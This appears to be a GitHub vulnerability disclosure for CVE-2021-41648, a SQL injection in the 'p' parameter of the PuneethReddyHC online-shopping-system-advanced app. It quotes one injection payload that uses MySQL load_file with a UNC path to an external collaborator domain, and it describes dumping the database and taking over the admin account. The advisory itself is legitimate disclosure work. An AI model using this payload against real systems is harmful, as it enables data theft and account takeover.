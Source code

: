 ## [CVE-2021-41648](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41648)

## [Vendor](https://github.com/puneethreddyhc)

![](https://github.com/nu11secur1ty/CVE-mitre/blob/main/CVE-2021-41648/docs/Screenshot%202021-11-22%20132638-fullstack-developer.png)

## [Software](https://github.com/PuneethReddyHC/online-shopping-system-advanced)

![](https://github.com/nu11secur1ty/CVE-mitre/blob/main/CVE-2021-41648/docs/Screenshot%202021-11-22%20132834-wallpaper.png)

## Description:
The p parameter of the PuneethReddyHC online-shopping-system-advanced 1.0 appears to be vulnerable to SQL injection attacks. 
The payload `(select load_file('\\\\grb7dmacp8fse7awai6uedfhi8o2cz0q2et1jp8.nu11secur1tycollaborator.net\\mpv'))` was submitted in the p parameter. 
This payload injects a SQL sub-query that calls MySQL's load_file function with a UNC file path that references a URL on an external domain. 
The application interacted with that domain, indicating that the injected SQL query was executed. 
The malicious user can attack the database using four SQL injection methods `(UNION query, time-based blind, error-based and boolean-based blind)`, 
then he can dump all information from this database of the app, then he can log in to the admin account, and can do malicious stuff. 
Conclusion: Status Critical.

## Reproduce:
[href](https://github.com/nu11secur1ty/CVE-mitre/edit/main/CVE-2021-41648)

## Proof and Exploit:
[href](https://streamable.com/o9q2nf)

## Action:
![](https://github.com/nu11secur1ty/CVE-mitre/blob/main/CVE-2021-41648/docs/Screenshot%202021-11-22%20135201-in-action.png)

